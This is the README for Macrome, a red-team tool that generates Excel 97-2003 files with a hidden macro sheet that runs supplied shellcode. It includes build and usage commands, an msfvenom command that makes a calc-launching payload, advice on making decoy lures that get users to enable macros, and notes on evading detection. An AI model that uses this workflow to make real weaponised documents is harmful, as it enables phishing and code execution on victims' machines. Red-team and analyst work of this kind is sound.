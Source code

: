 # Macrome
An Excel Macro Document Reader/Writer for Red Teamers & Analysts.

# Installation / Building
Clone or download this repository, the tool can then be executed using dotnet - for example:

~~~
dotnet run -- --decoy-document Docs\decoy_document.xls --payload Docs\popcalc.bin
~~~

or 

~~~
dotnet build
cd bin/Debug/netcoreapp2.0
dotnet Macrome.dll --decoy-document decoy_document.xls --payload popcalc.bin
~~~

# Usage
Run Macrome by either using `dotnet run` from the solution directory, or `dotnet` against the built Macrome binary. 
~~~
Macrome:
  Generate an Excel Document with a hidden macro sheet that will execute code described by the payload argument.

Usage:
  Macrome [options]

Options:
  --decoy-document <decoy-document>          File path to the base Excel 2003 sheet that should be visible to users.
  --payload <payload>                        Either binary shellcode or a newline separated list of Excel Macros to execute
  --payload-type <Macro|Shellcode>           Specify if the payload is binary shellcode or a macro list. Defaults to Shellcode
  --macro-sheet-name <macro-sheet-name>      The name that should be used for the macro sheet. Defaults to Sheet2
  --output-sheet-name <output-sheet-name>    The output filename used for the generated document. Defaults to output.xls
  --debug-mode                               Set this to true to make the program wait for a debugger to attach. Defaults to false
  --version                                  Show version information
  -?, -h, --help                             Show help and usage information
~~~

## Binary Payload Usage
First generate a base "decoy" Excel document that will contain content users should see. This should be some sort of lure that convinces users to click the "Enable Macros" button displayed in Excel. There's some examples of the "latest and greatest" lure creation at https://inquest.net/blog/2020/05/06/ZLoader-4.0-Macrosheets-. Once this sheet is created, save the document as type `Excel 97-2003 Workbook (*.xls)` rather than the newer `Excel Workbook (*.xlsx)` format. An example decoy document is included in `/Docs/decoy_document.xls`.

Next, generate a shellcode payload to provide to the tool. The example binary payload (which pops calc) was generated using `msfvenom` using the following parameters:

~~~
 msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -e x86/alpha_mixed -f raw EXITFUNC=thread > popcalc.bin
~~~

Note that using a majority alpha-numeric payload will reduce the size of the macro file generated since it's easier to express letters and numbers in macro form instead of appending `CHAR` function invocations repeatedly like `=CHAR(123)&CHAR(124)&CHAR(125)...` etc. But the tool should be able to handle a completely unprintable binary payload as well.

Currently this will only work with `x86` payloads, but `x64` support is coming soon, along with support for loading .NET binaries.

## Macro Payload Usage
Technically possible, but there's more work to do on this both implementation and documentation side.

# Acknowledgements 
Big thanks to all the shoulders that I was able to stand on in order to write this.

* https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/ - The Outflank team created this attack, I'm just automating some of the tedious parts.
* The folks at InQuest for their excellent write-ups on what malware authors are doing to evade detection right now.
** https://inquest.net/blog/2019/01/29/Carving-Sneaky-XLM-Files
** https://inquest.net/blog/2020/03/18/Getting-Sneakier-Hidden-Sheets-Data-Connections-and-XLM-Macros
** https://inquest.net/blog/2020/05/06/ZLoader-4.0-Macrosheets-
* @DissectMalware for their killer XLMMacroDeobfuscator tool which has been awesome to test against and is just a really great piece of tech if you're on the defense/analyst side. Check it out at https://github.com/DissectMalware/XLMMacroDeobfuscator. They also write 
* The original authors of the `b2xtranslator` library as well as the folks at EvolutionJobs who updated it and ported it to dotnet. The code used here was initially sourced from https://github.com/EvolutionJobs/b2xtranslator.
